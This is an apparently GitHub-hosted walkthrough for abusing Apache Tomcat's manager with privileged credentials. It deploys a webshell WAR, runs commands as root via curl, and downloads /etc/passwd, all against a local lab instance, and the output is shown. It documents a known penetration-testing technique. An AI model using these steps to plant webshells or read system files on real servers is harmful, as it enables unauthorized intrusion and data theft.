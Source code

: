 # Apache Tomcat - Upload an app

## Requirements

 - A valid **username and password** of a user with high privileges on Apache Tomcat.

## Exploitation

### Step 1: Access the Tomcat manager and upload the webshell application

First of all, you will need to access the Apache Tomcat `/manager` page at http://127.0.0.1:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.

![](./imgs/manager.png)

Compile the webshell application or download a release here: https://github.com/p0dalirius/Tomcat-application-webshell/. Then choose the WAR file of the [webshell application](https://github.com/p0dalirius/Tomcat-application-webshell/) and click on "Deploy":

![](./imgs/upload_a_plugin.png)

And the application is deployed:

![](./imgs/webshell_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/Tomcat-application-webshell/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/168489455-023b52c5-e8a9-4cd9-96ca-f26c14304236.mp4

## References
 - https://tomcat.apache.org/
 - https://github.com/p0dalirius/Tomcat-application-webshell/
